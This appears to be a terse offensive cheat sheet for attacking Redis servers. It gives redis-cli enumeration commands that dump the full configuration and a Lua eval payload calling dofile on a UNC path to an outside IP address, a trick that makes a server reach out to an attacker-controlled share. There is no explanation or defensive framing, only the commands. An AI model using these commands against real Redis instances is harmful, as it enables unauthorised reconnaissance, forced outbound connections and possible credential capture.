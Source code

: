 # Enumeration
```
redis-cli -h ip
config get *
```

# eval 
```
eval "dofile('\\\\\\\\10.21.176.25\\\\teest')" 0
```
